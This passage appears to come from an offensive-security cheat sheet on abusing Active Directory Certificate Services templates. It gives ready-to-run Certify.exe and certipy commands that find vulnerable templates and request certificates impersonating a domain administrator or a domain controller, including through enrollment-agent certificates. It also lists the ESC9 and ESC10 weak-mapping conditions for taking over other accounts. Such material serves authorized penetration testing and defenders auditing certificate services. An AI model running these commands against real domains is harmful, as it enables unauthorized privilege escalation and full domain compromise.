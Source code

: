 If **ANY EKU** but no Client Authentication, it can be used as en **ESC3**.

**ESC2 & 3**

```powershell
# Request an enrollment agent certificate
Certify.exe request /ca:CA.contoso.local\CA /template:Vuln-EnrollAgentTemplate

# Request a certificate on behalf of another to a template that allow for domain authentication
Certify.exe request /ca:CA.contoso.local\CA /template:User /onbehalfon:CONTOSO\Admin /enrollcert:enrollmentAgentCert.pfx /enrollcertpw:Passw0rd!
```

#### Linux

**ESC1 & 2**

```bash
# enumerate and save text, json and bloodhound (original) outputs
certipy find -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -old-bloodhound

# quickly spot vulnerable elements
certipy find -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -vulnerable -stdout

#To specify a user account in the SAN
certipy req -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -target 'ca_host' -ca 'ca_name' -template 'vulnerable template' -upn 'domain admin'

#To specify a computer account in the SAN
certipy req -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -target 'ca_host' -ca 'ca_name' -template 'vulnerable template' -dns 'dc.contoso.local'
```

If **ANY EKU** but no Client Authentication, it can be used as en **ESC3**.

**ESC2 & 3**

```bash
# Request a certificate specifying the Certificate Request Agent EKU
certipy req -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -target 'ca_host' -ca 'ca_name' -template 'vulnerable template'

# Used issued certificate to request another certificate on behalf of another user
certipy req -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -target 'ca_host' -ca 'ca_name' -template 'User' -on-behalf-of 'contoso\domain admin' -pfx 'user.pfx'
```

### ESC9 & 10

* **ESC9** : No security extension, the certificate attribute `msPKI-Enrollment-Flag` contains the flag `CT_FLAG_NO_SECURITY_EXTENSION`
  * `StrongCertificateBindingEnforcement` not set to `2` (default: `1`) or `CertificateMappingMethods` contains `UPN` flag (`0x4`)
  * The template contains the `CT_FLAG_NO_SECURITY_EXTENSION` flag in the `msPKI-Enrollment-Flag` value
  * The template specifies client authentication
  * `GenericWrite` right against any account A to compromise any account B
* **ESC10** : Weak certificate mapping
  * Case 1 : `StrongCertificateBindingEnforcement` set to `0`, meaning no strong mapping is performed
    * A template that specifiy client authentication is enabled
    * `GenericWrite` right against any account A to compromise any account B
  * Case 2 : `CertificateMappingMethods` is set to `0x4`, meaning no strong mapping is performed and only the UPN will be checked
    * A template that specifiy client authentication is enabled
    * `GenericWrite` right against any account A to compromise any account B without a UPN already set (machine accounts or buit-in Administrator account for example)
